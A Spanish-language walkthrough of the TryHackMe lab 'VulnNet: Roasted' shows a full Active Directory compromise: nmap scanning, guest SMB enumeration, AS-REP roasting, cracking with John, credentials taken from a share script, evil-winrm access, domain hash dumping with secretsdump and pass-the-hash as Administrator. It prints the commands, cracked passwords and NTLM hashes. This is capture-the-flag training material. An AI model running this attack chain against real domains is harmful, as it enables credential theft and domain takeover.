En esta sala nos enfrentaremos a una maquina Windows en el cual tenemos que explotar un directorio activo. Enumerando encontraremos un directorio compartido por `smb` en el enumerando encontraremos algunos archivos con nombres de la cual generaremos una lista de usuario para luego realizar un ataque `asreproast attack` el cual nos dara un hash el cual podremos crackear y luego seguir enumerando los directorios de smb en el cual encontraremos un archivo con credenciales. Las credenciales que encontramos podremos ingresar con la herramienta `evil-winrm` y poder dumpear la sam  



- Link [vulnnetroasted](https://tryhackme.com/room/vulnnetroasted)
- Created by [SkyWaves](https://tryhackme.com/p/SkyWaves)

# Enumeración

Iniciaremos con la enumeración de los puertos abiertos de la maquina victima

```php
❯ nmap -p- --open --min-rate 5000 -vvv -Pn -n 10.10.166.41 -oG allportsScan

PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5985/tcp  open  wsman            syn-ack
9389/tcp  open  adws             syn-ack
49665/tcp open  unknown          syn-ack
49668/tcp open  unknown          syn-ack
49669/tcp open  unknown          syn-ack
49670/tcp open  unknown          syn-ack
49683/tcp open  unknown          syn-ack
49696/tcp open  unknown          syn-ack
```

- `-p-`: esta opción indica a Nmap que escanee todos los puertos, desde el puerto 1 hasta el puerto 65535. El guion (`-`) especifica el rango de puertos completo.
    
- `--open`: esta opción le indica a Nmap que muestre solo los puertos que están abiertos. Esto filtra la salida para mostrar solo los puertos accesibles.
    
- `--min-rate 5000`: esta opción establece la velocidad mínima de envío de paquetes a 5000 paquetes por segundo. Esto puede acelerar el escaneo de puertos al enviar paquetes más rápidamente.
    
- `-vvv`: esta opción activa el modo de verbosidad máximo, lo que significa que Nmap mostrará una cantidad significativa de información sobre el progreso del escaneo y los detalles de los puertos y hosts descubiertos.
    
- `-Pn`: esta opción le indica a Nmap que no realice el descubrimiento de hosts, lo que significa que no enviará pings para determinar si los hosts están activos. Esto es útil si el objetivo no responde a los pings, pero aún queremos escanear sus puertos.
    
- `-n`: esta opción le indica a Nmap que no realice la resolución de DNS inversa para las direcciones IP encontradas. Esto ayuda a acelerar el escaneo evitando la búsqueda de nombres de host.
    
- `-oG allportsScan`: esta opción le indica a Nmap que genere la salida en formato "grepable" y guarde los resultados en un archivo llamado "allportsScan". Este formato es adecuado para el procesamiento posterior de los resultados del escaneo.

Luego de tener la lista de los puertos abiertos debemos de enumerar los servicios que se ejecutan en los puertos.

```php
❯ nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49665,49668,49669,49670,49683,49696 -sC -sV -PN -n -vvv 10.10.166.41 -oN servicesScan

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-03-01 00:43:27Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49683/tcp open  msrpc         syn-ack Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-01T00:44:34
|_  start_date: N/A
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 60104/tcp): CLEAN (Timeout)
|   Check 2 (port 33274/tcp): CLEAN (Timeout)
|   Check 3 (port 11935/udp): CLEAN (Timeout)
|   Check 4 (port 10561/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

```

- `-p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49665,49668,49669,49670,49683,49696`: esta opción especifica los puertos que se escanearán. En este caso, se están escaneando los puertos 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 5985, 9389, 49665, 49668, 49669, 49670, 49683 y 49696.
    
- `-sC`: esta opción activa el escaneo de scripts de Nmap, lo que implica ejecutar scripts prediseñados para detectar vulnerabilidades y recopilar información adicional sobre los servicios que se están ejecutando en los puertos escaneados.
    
- `-sV`: esta opción activa la detección de versión, lo que significa que Nmap intentará determinar las versiones de los servicios que se están ejecutando en los puertos escaneados.
    
- `-PN`: esta opción le indica a Nmap que realice el escaneo incluso si no puede detectar si el host está activo mediante ping. Es decir, realizará el escaneo incluso si el host no responde a los pings.
    
- `-n`: esta opción le indica a Nmap que no realice la resolución de DNS inversa para las direcciones IP encontradas. Esto ayuda a acelerar el escaneo evitando la búsqueda de nombres de host.
    
- `-vvv`: esta opción activa el modo de verbosidad máximo, lo que significa que Nmap mostrará una cantidad considerable de información sobre el progreso del escaneo y los detalles de los puertos y servicios descubiertos.
    
- `-oN servicesScan`: esta opción le indica a Nmap que genere la salida en formato normal y guarde los resultados en un archivo llamado "servicesScan". Este formato es adecuado para la revisión manual de los resultados del escaneo.

Luego de enumerar los puertos encontramos que el servicio smb se ejecuta, por lo cuale procederemos a enumerar haciendo uso del un usuario `guest`.

```php
❯ smbmap -H 10.10.166.41 -u 'guest'
```

- `smbmap`: el comando para invocar la herramienta `smbmap`.
    
- `-H [IP]`: esta opción especifica la dirección IP del host que se va a escanear para identificar los recursos compartidos a través del protocolo SMB.
    
- `-u 'guest'`: esta opción especifica el nombre de usuario que se utilizará para autenticarse en el servidor SMB. En este caso, se está utilizando el usuario 'guest', que es un usuario invitado comúnmente utilizado para acceder a recursos compartidos sin necesidad de proporcionar una contraseña.



Podemos ver tenemos acceso a dos carpetas en estas podremos encontrar archivos que son:



En estos archivos encontraremos nombres de usuarios del cual haremos uso para generar usuarios.




Luego de generar los usuarios con el script en python [script](https://github.com/b0ySie7e/NamePassGenerator)


# Explotación

Con los usuarios podremos realizar un [asreproast attack](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/)  en el cual podremos obtener un hash que se crackeable. 

```php
❯ impacket-GetNPUsers vulnnet-rst.local/ -usersfile formatted_name_wordlist.txt -format hashcat -outputfile hashes.asreproast -dc-ip 10.10.166.41
```

Ejecutando podremos obtener lo siguiente:



Luego de obtenerel hash podremos crackearlo con `john the Ripper` 

```php
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast
```

Crackeando podremos obtener la contraseña que es :

```php
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tj072889*        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL)     
1g 0:00:00:02 DONE (2024-02-29 20:33) 0.3508g/s 1115Kp/s 1115Kc/s 1115KC/s tjalling..tj0216044
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Haciendo uso de las credenciales seguiremos a enumerando los si tenemos permisos para conectarnos a la maquina y obtener una shell, para esto haremos uso de `crackmapexec`





# Escalada de privilegios

## Usuario t-skid

Enumerando el servicio de `smb` y `winrm`, luego de esto podremos ver que no podemos ingresar pero las credenciales son validas. Ahora enumeramos los directorios compartidos y encontraremos uno en la que tenemos permisos de lectura



En este directorio encontramos un directorio que es `scripts` que contiene un archivo credenciales



El archivo el que contiene credenciales es `ResetPassword.vbs` 



## Usuario: a-whitehat

Teniendo estas credenciales podremos seguir enumerando:

```php
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
```


Haciendo uso de [evil-winrm](https://book.hacktricks.xyz/v/es/network-services-pentesting/5985-5986-pentesting-winrm#conexion-winrm-en-linux) podremos conectarnos a la maquina victima.



```php
❯ evil-winrm -u 'a-whitehat' -p 'bNdKVkjv3RR9ht' -i 10.10.147.117
```



Procederemos a enumerar el sistema y nos encontraremos con lo siguiente:

```php
*Evil-WinRM* PS C:\Users\a-whitehat\Desktop> whoami /priv
```



Luego de enumerar con `whoami /priv` y ver que tenemos muchos permisos el cual no es comun enumeraremos el servicio `smb`

```php
❯ smbmap -H 10.10.244.24 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht'
```

Nos encontraremos con que el usuario del cual contamos las credenciales tiene permisos de administrador.



Otra manera de enumerar o observar esto es con `net user a-whitehat`


### Secretsdump

Como el usuario `a-whitehat` pertenece al grupo `Admins` podremos dumpear la sam de todo el dc con la herramienta `impacket-secretsdump`.

```php
❯ impacket-secretsdump vulnnet-rst.local/'a-whitehat':'bNdKVkjv3RR9ht'@10.10.244.24
```




```php
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7633f01273fc92450b429d6067d1ca32:::
vulnnet-rst.local\enterprise-core-vn:1104:aad3b435b51404eeaad3b435b51404ee:8752ed9e26e6823754dce673de76ddaf:::
vulnnet-rst.local\a-whitehat:1105:aad3b435b51404eeaad3b435b51404ee:1bd408897141aa076d62e9bfc1a5956b:::
vulnnet-rst.local\t-skid:1109:aad3b435b51404eeaad3b435b51404ee:49840e8a32937578f8c55fdca55ac60b:::
```

## Usuario : Administrador

Luego de obtener los hash, podremos hacer passtheHash y conectarnos a la maquina victima como el usuario administrador.

```
❯ evil-winrm -u 'Administrator' -H 'c2597747aa5e43022a3a3049a3c3b09d' -i 10.10.244.24
```



